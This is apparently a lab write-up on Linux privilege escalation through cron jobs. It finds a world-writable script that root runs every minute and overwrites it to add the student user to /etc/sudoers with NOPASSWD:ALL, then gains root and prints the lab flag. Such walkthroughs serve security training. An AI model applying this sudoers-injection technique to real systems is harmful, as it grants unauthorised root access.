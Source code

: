 # 🔬Cron Jobs

### Lab 1 <a href="#lab-1" id="lab-1"></a>

> 🔬 [Cron Jobs Gone Wild II](https://www.attackdefense.com/challengedetails?cid=77)
>
> * **Cron Jobs** Privilege escalation
> * Already logged on as `student` unprivileged user

```bash
whoami
groups student
ls -l
cat message
```

<figure><img src="../../../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

> There is a “message” file in the home directory of student user. Only root user has permissions on this file. So, student user can’t even read it.

```bash
cat /etc/passwd
crontab -l
```

<figure><img src="../../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

> `student` user has no privileges and no scheduled cron jobs

### Cron Jobs Identify <a href="#cron-jobs-identify" id="cron-jobs-identify"></a>

* Find if a file with the same name exists on the system.

```bash
find / -name message
```

<figure><img src="../../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<pre class="language-bash"><code class="lang-bash">grep -rnw /usr/ -e "/home/student/message"
<strong>    /usr/local/share/copy.sh:2:cp /home/student/message /tmp/message
</strong></code></pre>

* The file has been copied into the /tmp directory

```bash
cat /tmp/message
    Hey!! you are not root :(
```

* Observe that a file with the same name is present in `/tmp` directory. On checking closely, it is clear that this file is being overwritten every minute.

<figure><img src="../../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* This means there is some script/binary which is copying this file from student home directory to /tmp directory. Search for that script. If this script is doing simple copy operation, it must have source destination of the file in it. Try to locate that by using grep command.

```bash
grep -nri "/tmp/message" /usr/
    /usr/local/share/copy.sh:2:cp /home/student/message /tmp/message
    /usr/local/share/copy.sh:3:chmod 644 /tmp/message
```

* Check `copy.sh` privileges

```bash
ls -al /usr/local/share/copy.sh
	-rwxrwxrwx 1 root root 74 Sep 23  2018 /usr/local/share/copy.sh
```

```bash
cat /usr/local/share/copy.sh
    #! /bin/bash
    cp /home/student/message /tmp/message
    chmod 644 /tmp/message
```

* As the script file is writable by current “student” user, it can be modified to execute our commands. This script is executed by root cron job, so it can do privileged operation.&#x20;
* But, the file can’t be modified directly as there is no text editor on the system.

```bash
vim /usr/local/share/copy.sh
bash: vim: command not found
student@attackdefense:~$ vi /usr/local/share/copy.sh
bash: vi: command not found
student@attackdefense:~$ nano /usr/local/share/copy.sh
bash: nano: command not found
```

### Privesc <a href="#privesc" id="privesc"></a>

* Every user account has read/write/execute permissions on the `copy.sh` script
* The script is writable by the `student` user. Modify the script to execute a command (`e.g.` a_dding **student** to `sudoers` file_).
  * When the script is executed by `root` cron job (_every 1 min for this lab_), it will run commands with pivileged permissions
  * No text editors available in the lab
* Use `printf` to replace the original code with the following lines

```bash
printf '!#bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh
student@attackdefense:~$ cat /usr/local/share/copy.sh
!#bin/bash
echo "student ALL=NOPASSWD:ALL" >> /etc/sudoersstudent@attackdefense:~$
```

* Check current sudoers list

```bash
sudo -l
    Matching Defaults entries for student on attackdefense:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User student may run the following commands on attackdefense:
        (root) NOPASSWD: /etc/init.d/cron
```

* There are no new entries. So, wait for 1 minute (i.e. the cron job runs every 1 minute) and check the sudoers list again. This time new entry is there.

```bash
sudo -l
    Matching Defaults entries for student on attackdefense:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User student may run the following commands on attackdefense:
        (root) NOPASSWD: /etc/init.d/cron
        (root) NOPASSWD: ALL
```

<figure><img src="../../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Switch to the root user using `sudo su`and collect the flag from the root directory.

```bash
sudo su
root@attackdefense:/home/student# whoami
root
root@attackdefense:/home/student# cd /root
root@attackdefense:~# ls -l
total 4
-rw-r--r-- 1 root root 33 Nov  2  2018 flag
root@attackdefense:~# cat flag
697914df7a07bb9b718c8ed258150164
```

<figure><img src="../../../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Flag: `697914df7a07bb9b718c8ed258150164`
{% endhint %}



